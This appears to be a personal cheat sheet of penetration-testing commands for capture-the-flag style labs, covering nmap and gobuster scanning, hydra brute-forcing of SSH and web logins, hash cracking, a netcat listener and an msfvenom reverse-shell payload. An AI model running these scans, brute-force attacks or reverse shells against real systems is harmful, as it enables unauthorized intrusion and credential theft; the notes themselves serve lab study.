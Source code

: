 # CLI Toolset

## gobuster
Site discovery
```console
gobuster -u http://fakebank.com -w wordlist.txt dir
```
```console
gobuster -u http://$IP -w wordlist.txt -x php,sh,txt,cgi,html,js,css,py
```

## nmap
```console
nmap -sC -sV -oN nmap/initial $IP
```
Silence discovery:
```console
nmap -sS MACHINE_IP
```
Ping Scan: Allows scanning the live hosts in the network without going deeper and checking for ports services etc. Usage:
```console
nmap -sn MACHINE_IP
```
Operating System Scan: Allows scanning of the type of OS running on a live host. Usage: 
```console
nmap -O MACHINE_IP
```
Detecting Services: Get a list of running services on a live host. Usage: 
```console
nmap -sV MACHINE_IP
```
Check for vulns also:
```console
nmap -sV -sC --script vuln MACHINE_IP
nmap -sV -vv --script vuln  MACHINE_IP
```

## nikto
Webserver vuln. disc.
```console
nikto -host $IP:80
```

## hydra
Bruteforce

```console
hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

```console
hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
```

```console
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -f -v 10.10.66.58 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -s 80
```

## crunch
Password list generator

## cewl

```console
cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
```

## nc

```console
nc -lnvp 4444
```

## msfvenom

A command-line payload generation tool

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```

## john

Brute force hash pwd

```console
john --wordlist=greedykeys.txt hash.txt
```

## searchsploit

Search ExploitDB

```console
searchsploit fuel cms
```

## hashcat

MD5 hash cracker

```console
hashcat -m 0 pash /usr/share/wordlists/rockyou.txt
```

## enum4linux
eg. SMB user name enumeration

```console
enum4linux -e $IP
```

## stegcracker
Steganograpy cracer

 ```console
stegcracker <file> [<wordlist>]
```
